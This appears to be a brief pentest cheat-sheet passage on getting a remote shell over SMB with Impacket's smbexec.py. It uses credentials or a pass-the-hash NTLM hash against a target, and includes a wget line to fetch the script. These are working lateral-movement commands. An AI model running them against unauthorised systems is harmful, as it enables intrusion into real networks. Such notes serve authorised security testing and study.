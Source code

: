 ```python - kali
python3 /usr/share/doc/python3-impacket/examples/smbexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

or

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py
```

#### Shell with smbexec.py
```python - kali
smbexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```python - kali
smbexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```
